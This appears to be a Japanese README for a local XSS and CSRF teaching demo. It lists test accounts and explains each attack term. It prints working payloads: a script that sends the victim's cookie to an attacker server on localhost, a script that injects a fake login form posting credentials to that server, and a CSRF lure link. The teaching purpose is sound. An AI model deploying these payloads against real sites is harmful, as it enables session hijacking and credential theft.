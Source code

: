 
---

# 🛡️ XSS-Demo：セキュリティ学習用デモサイト

このデモでは、**クロスサイトスクリプティング（XSS）** や **CSRF（クロスサイトリクエストフォージェリ）** の仕組みを体験できます。

⚠️ **この内容は学習目的のみに使用してください。実際のサービスに対する攻撃・悪用は禁止です。**

---

## 🚀 サーバー起動方法

1. `localhost:3000` にサーバーを立ててください。
2. ブラウザで `index.html` にアクセスします。

---

## 🔐 ログイン用アカウント

|  ユーザー名 |   パスワード   |
| :----: | :-------: |
|  test  |  test123  |
|   bob  |   bob123  |
| poteko | poteko123 |

---

## 💣 attacker フォルダの使い方（攻撃デモ）

このフォルダ内には攻撃シナリオ用のコードが入っています。

1. `attacker-server.js` を起動して `localhost:6010` でサーバーを立ててください。
2. 以下のスクリプトを掲示板に投稿して、挙動を確認していきましょう。

---

### 🥷 1. Cookieを盗むスクリプト

```html
<script>
location.href = 'http://localhost:6010/getCookie?cookie=' + document.cookie;
</script>
```

* このコードを掲示板に投稿。
* 投稿後、**別のアカウントでログイン**。
* `attacker/stolen-data.txt` に Cookie が記録されていれば成功です。
* 注意：このスクリプトはページを開くたびに実行されます。**次に進む前に投稿を削除してください。**

---

### 🎣 2. フィッシングフォームの表示

```html
<script>
document.body.innerHTML = `
  <form method="POST" action="http://localhost:6010/getLogin">
    <div>ユーザー名:<br><input type="text" name="id"></div>
    <div>パスワード:<br><input type="password" name="password"></div>
    <input type="submit" value="ログイン">
  </form>
`;
</script>
```

* 掲示板の投稿として書き込むと、ページに偽のログインフォームが表示されます。
* 入力すると、**ユーザー名とパスワードが攻撃者に送信されます。**
* 投稿は忘れずに削除してください。

---

### 🧨 3. CSRF攻撃の実験

```html
<a href="http://localhost:3000/xss-demo/attacker/csrf.html">１００万円今ならもらえる！</a>
```

* ユーザーがこのリンクをクリックすると、**掲示板に勝手に投稿**されるような操作が実行されます。
* CSRFは、**本人の意図に反して操作が実行されてしまう**ことが問題です。

---

## 🧠 補足：XSSやCSRFってなに？

| 用語                          | 説明                                              |
| --------------------------- | ----------------------------------------------- |
| **XSS（クロスサイトスクリプティング）**     | 悪意のあるスクリプトをWebページに仕込み、他のユーザーの情報（Cookieなど）を盗む攻撃。 |
| **CSRF（クロスサイトリクエストフォージェリ）** | ログイン中のユーザーに気づかれずに、意図しない操作（投稿・削除など）を実行させる攻撃。     |

---

